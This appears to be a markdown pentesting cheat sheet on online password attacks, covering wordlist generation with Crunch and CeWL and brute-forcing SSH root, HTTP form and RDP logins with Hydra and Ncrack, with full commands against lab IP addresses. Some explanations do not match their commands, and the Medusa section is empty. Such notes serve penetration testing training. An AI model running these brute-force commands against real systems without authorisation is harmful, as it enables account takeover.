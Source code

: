# Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

>crunch [min] [max] [characterset] -t [pattern] -o [output filename]

min = minimum password length
max = maximum password length
characterset = The character set to be used in generating the passwords
-t = patten, for example if you knew that your target's birthday was 0728 (July 28th) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728. 

>  ./crunch 1 1 -p pen test lab

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

>./crunch 6 6 0123456789 -b 1mb -o START

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

> ./crunch 3 3 -f charset.lst lalpha -o START -c 20

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is [abcdefghijklmnopqrstuvwxyz].

> ./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@

Create a wordlist that will contains the word pentestlab followed by 3 random characters.

### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

>cewl -d 2 -m 5 -w docswords.txt http://docs.kali.org


## Bruteforce
### Hydra 

> hydra -l username -p passwordlist.txt [target (ip address and port)]

### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

> hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh

-l = the username 

-L = list of usernames (if you don't know the login)

-p = password (never used) 

-P - the directory for the wordlists (file)

-M FILE   list of servers to be attacked in parallel, one entry per line 


Less common options:
-vV = verbose mode, shows you every login attempt hydra tries 

-s = specify the port on which we running our attack 

-e ns = checks for blank or no password fields 


Brute-force HTTP Form POST using a username list to try different usernames

> hydra -L \[username list\] -P \[password list\] 192.168.1.10 \[form parameters\]\[failed login message\]

### Ncrack

#### RDP bruteforce

> ncrack -vv --user offsec -P passwordfile.txt  rdp://192.168.11.35

### Medusa



